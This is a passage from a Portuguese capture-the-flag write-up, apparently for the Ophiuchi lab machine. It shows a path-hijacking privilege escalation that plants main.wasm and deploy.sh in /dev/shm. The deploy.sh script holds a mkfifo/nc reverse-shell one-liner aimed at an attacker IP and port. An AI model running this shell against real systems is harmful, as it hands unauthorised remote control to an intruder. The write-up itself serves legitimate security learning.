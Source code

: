 Como podemos ver, as variáveis são carregadas a partir do arquivo `main.wasm` e, se a variavel `f` em `info` for igual à **1**, o arquivo `deploy.sh` é executado.

Como ambos os arquivos (`main.wasm` e `deploy.sh`) executam a partir de um caminho relativo, são vulneráveis a **path hijacking**, o que realizaremos agora.

O passo inicial é criar os dois arquivos conforme faremos nos passos a seguir executando a partir de um diretório onde temos privilégio de gravação, neste caso em `/dev/shm`.

```bash
mkdir /dev/shm/zurc
cd /dev/shm/zurc
```

### `deploy.sh`

A crição deste arquivo será bem simples. Apenas criaremos um script no diretório recém-criado e executar o comando `id` para comprovar a execução.

```bash
#!/bin/bash

id
```

Uma vez que o procedimento funcione, alteraremos o script para o seguinte, que enviará um shell reverso para a máquina atacante

```bash
#!/bin/bash

rm /tmp/zurc;mkfifo /tmp/zurc;cat /tmp/zurc|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/zurc
```

### `main.wasm`

Este item é um pouco mais complexo, pois abrindo um dos arquivos encontrados em um editor, notamos que se trata de algo compilado e não um arquivo em texto plano.

Pesquisando um pouco em como modificar um arquivo wasm, encontrei no site Mozilla developers [como converter um WebAssembly Text para WASM](https://developer.mozilla.org/en-US/docs/WebAssembly/Text_format_to_wasm), que faz referência ao repositório [WebAssembly/wabt: The WebAssembly Binary Toolkit no GitHub](https://github.com/webassembly/wabt).

Os seguintes passos foram realizados para inspecionar e modificar o arquivo `main.wasm`:

- Localizado o arquivo `main.wasm` na máquina e copiado o principal para a máquina atacante

```bash
# Ophiuchi
admin@ophiuchi:~$ find / -type f 2> /dev/null | grep main.wasm
/opt/wasm-functions/main.wasm
/opt/wasm-functions/backup/main.wasm
```

```bash
# Attacker Machine
$ cd ./loot
$ scp admin@10.10.10.227:/opt/wasm-functions/main.wasm .
```
